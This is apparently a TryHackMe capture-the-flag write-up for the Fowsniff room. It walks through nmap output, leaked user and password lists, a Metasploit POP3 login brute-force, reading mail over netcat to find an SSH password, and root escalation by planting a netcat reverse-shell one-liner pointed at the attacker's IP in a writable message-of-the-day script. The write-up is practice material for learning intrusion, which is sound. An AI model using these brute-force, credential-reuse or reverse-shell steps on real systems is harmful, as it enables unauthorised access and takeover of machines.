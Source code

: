 # TryHackMe-Fowsniff

>Abdullah Rizwan | 09:56 PM, 17th October 2020

## NMAP

```
Nmap scan report for 10.10.47.52
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: CAPA UIDL TOP SASL(PLAIN) PIPELINING AUTH-RESP-CODE RESP-CODES USER
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: OK listed more SASL-IR have post-login LOGIN-REFERRALS AUTH=PLAINA0001 LITERAL+ capabilities IDLE ENABLE IMAP4rev1 ID Pre-login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.12 seconds

```

On the webpage there is a breach of company so we may get thier hacked twitter account 

`https://twitter.com/fowsniffcorp?lang=en`

On the pastebin we can find a list of possible passwords or user name accounts

`https://pastebin.com/NrAqVeeX`


Users 

```
mauer@fowsniff
mustikka@fowsniff
tegel@fowsniff
baksteen@fowsniff
seina@fowsniff
stone@fowsniff
mursten@fowsniff
parede@fowsniff
sciana@fowsniff
```

Passwords of Md5

```
mailcall
bilbo101
apples01
skyler22
scoobydoo2
carp4ever
orlando12
07011972
```

## Metasploit

```
msf5 auxiliary(scanner/pop3/pop3_login) > run

[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:mailcall', '-ERR [AUTH] Authentication failed.'
[!] 10.10.47.52:110       - No active DB -- Credential data will not be saved!
[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:apples01', '-ERR [AUTH] Authentication failed.'
[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:skyler22', ''
[+] 10.10.47.52:110       - 10.10.47.52:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[*] 10.10.47.52:110       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
`scoobydoo2`


## POP3 

Now to use pop3 which is email protocol through command line

`nc 10.10.47.52 110`

This will connect to protocol

```
USER seina
PASS scoobydoo2
```

There are two mails
```
root@kali:~# nc 10.10.47.52 110
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
STAT
+OK 2 2902
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR
-ERR Invalid message number: 
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
.
```

```
OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

.


```

We can ssh into box with username `baksteen` password `S1ck3nBluff+secureshell`



## SSH

After logging with SSH we are in and now let's find some files

```
baksteen@fowsniff:/$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
baksteen@fowsniff:/$ find / -group users 2>/dev/null
/opt/cube/cube.sh
/run/user/1004
/run/user/1004/systemd
/run/user/1004/systemd/private
/run/user/1004/systemd/notify
/home/baksteen/.cache
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir
/home/baksteen/Maildir/tmp
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log

```

Here we can see cube.sh

nano cube.sh and paste it in 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.94.60 5555 >/tmp/f`

start nc listener nc -lvp 5555

Logout from the machine and log in back since it's a message of the day file it will run as root when you login to display message and your listener will capture it.